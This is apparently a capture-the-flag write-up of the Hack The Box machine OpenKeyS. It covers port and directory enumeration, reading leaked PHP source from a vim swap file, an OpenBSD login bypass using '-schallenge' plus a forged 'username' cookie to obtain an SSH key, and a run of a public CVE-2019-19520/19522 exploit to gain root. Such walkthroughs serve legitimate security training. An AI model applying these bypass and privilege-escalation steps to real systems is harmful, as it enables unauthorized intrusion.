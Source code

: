 ```yaml
---
layout: post
author: Marmeus
title: OpenKeyS [HTB]
date: 2021-01-13 18:00:00 +/- 0000
categories: [Machine-Writeup, CTF,QR]
tags: [HTB,OSCP Path]
headline: OpenBSD is an easy-medium Hack The Box machines which requires of an OpenBsd web exploit and a little bit of analyzing code in order to get the user flag and another OpenBSD Xlock and (S/Key or YubiKey) exploit in order to become root.
image: https://www.hackthebox.eu/storage/avatars/792cdcf6434dad849ef37c4ab16bd68b.png
---
```




## Introduction

OpenBSD is an easy-medium Hack The Box machine where the attacker will require of an OpenBsd web exploit and a little bit of analyzing code in order to get the user flag and another  OpenBSD exploit about Xlock and (S/Key or YubiKey) in order to become root. 

## Enumeration

As always I start scanning every open port in the machine with **nmap**.

```bash
kali@kali:$ sudo nmap -v -sS -p- -n -oN AllPorts.txt 10.10.10.199
Nmap scan report for 10.10.10.199
Host is up (0.048s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Read data files from: /usr/bin/../share/nmap
# Nmap done at Sat Oct  3 11:56:39 2020 -- 1 IP address (1 host up) scanned in 769.41 seconds
```

There are just two open ports, and the more in depth scan doesn't provide any useful information.

```bash
kali@kali:$ sudo nmap -sC -sV -p22,80 -n 10.10.10.199 -oN PortInDepth.txt
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-13 06:24 EDT
Nmap scan report for 10.10.10.199
Host is up (0.060s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.1 (protocol 2.0)
| ssh-hostkey: 
|   3072 5e:ff:81:e9:1f:9b:f8:9a:25:df:5d:82:1a:dd:7a:81 (RSA)
|   256 64:7a:5a:52:85:c5:6d:d5:4a:6b:a7:1a:9a:8a:b9:bb (ECDSA)
|_  256 12:35:4b:6e:23:09:dc:ea:00:8c:72:20:c7:50:32:f3 (ED25519)
80/tcp open  http    OpenBSD httpd
|_http-title: Site doesn't have a title (text/html).

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
#Nmap done: 1 IP address (1 host up) scanned in 11.00 seconds
```

Hence, let's begin having a look at the web service, where there is an login portal.

![image-20201013122535219](assets/img/openkeys-htb/image-20201013122535219.png)

Using **gobuster** we can find the following folders.

```bash
kali@kali:$ gobuster -t 20 dir -u http://10.10.10.199/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o directories.txt
/images (Status: 301)
/css (Status: 301)
/includes (Status: 301)
/js (Status: 301)
/vendor (Status: 301)
/fonts (Status: 301)
```

Inside the `/includes` folder there are two php files, one of them is the actual `auth.php` and the other is the recover file used by *vim* when a file is being edited.

![image-20201013123237486](assets/img/openkeys-htb/image-20201013123237486.png)

As you can see there is nothing inside the `auth.php` because is being executed by **OpenBSD httpd**.

![image-20201013123638506](assets/img/openkeys-htb/image-20201013123638506.png)

However, in the `auth.php.swp` we can see what is written in the `auth.php` file.

![image-20201013123742769](assets/img/openkeys-htb/image-20201013123742769.png)

In order to beautify the file we can download it, then using the tools *strings* and **vim** with the recover parameter `-r` , we can analyze the code pretty easily.

Firstly, we need to download the file using *wget*.

```bash
kali@kali:$ wget http://10.10.10.199/includes/auth.php.swp
```

Then, applying **strings** to the file provides a possible user name, a domain and path.

```bash
kali@kali:$ strings auth.php.swp
```

![image-20201013125610768](assets/img/openkeys-htb/image-20201013125610768.png)

Finally, using the **vim** editor we can see how the code works.

```bash
kali@kali:$ vim -r auth.php.swp 
```

![image-20201013125308184](assets/img/openkeys-htb/image-20201013125308184.png)

## Explotation

Searching in Goolge "OpenBSD authentication bypass" will appear a [post](https://www.secpod.com/blog/openbsd-authentication-bypass-and-local-privilege-escalation-vulnerabilities/) about how to bypass the authentication process to access the portal.

Long story short, you just need to change the user name and password for the word "-schallenge" in the post request using **burpsuite**.

![image-20201013132059785](assets/img/openkeys-htb/image-20201013132059785.png)

Now we have bypassed the authentication protocol we need to provide a valid session in order to retrieve an SSH key.

![image-20201013131804209](assets/img/openkeys-htb/image-20201013131804209.png)

Analyzing the before mentioned code there is a cookie named "username" that could be set in order to get a different session as "jennifer". In order to do so, we need to capture another authentication request adding the "username" cookie variable.

![image-20201013133235354](assets/img/openkeys-htb/image-20201013133235354.png)

Forwarding the request we get the Jennifer's ssh key.

![image-20201013133314485](assets/img/openkeys-htb/image-20201013133314485.png)

This key can be used to gain access to the machine as Jennifer obtaining the user.txt flag.

```bash
kali@kali:$ ssh -i jennifer.key jennifer@openkeys.htb
```

## Privilege Escalation

This virtual machine is running **OpenBSD 6.6**.

```bash
openkeys$ uname -a
OpenBSD openkeys.htb 6.6 GENERIC#353 amd64
```

Looking for  OpenBSD 6.6 privilege escalation exploits I found this [GitHub repository](https://github.com/bcoles/local-exploits/blob/master/CVE-2019-19520/openbsd-authroot), executing the script for the [CVE-2019-19520](https://raw.githubusercontent.com/bcoles/local-exploits/master/CVE-2019-19520/openbsd-authroot) inside the machine we can become root getting the root flag, finishing the machine.

```bash
kali@kali:$ scp -i jennifer.key privEsc.sh jennifer@openkeys.htb:/tmp/
openkeys$ chmod +x privEsc.sh 
openkeys$ ./privEsc.sh 
openbsd-authroot (CVE-2019-19520 / CVE-2019-19522)
[*] checking system ...
[*] system supports S/Key authentication
[*] id: uid=1001(jennifer) gid=1001(jennifer) groups=1001(jennifer), 0(wheel)
[*] compiling ...
[*] running Xvfb ...
[*] testing for CVE-2019-19520 ...
_XSERVTransmkdir: Owner of /tmp/.X11-unix should be set to root
[+] success! we have auth group permissions

WARNING: THIS EXPLOIT WILL DELETE KEYS. YOU HAVE 5 SECONDS TO CANCEL (CTRL+C).

[*] trying CVE-2019-19522 (S/Key) ...
Your password is: EGG LARD GROW HOG DRAG LAIN
otp-md5 99 obsd91335
S/Key Password: <Write "EGG LARD GROW HOG DRAG LAIN">
openkeys# id                                                                                                       
uid=0(root) gid=0(wheel) groups=0(wheel), 2(kmem), 3(sys), 4(tty), 5(operator), 20(staff), 31(guest)
openkeys# wc -c /root/root.txt
      33 /root/root.txt
```


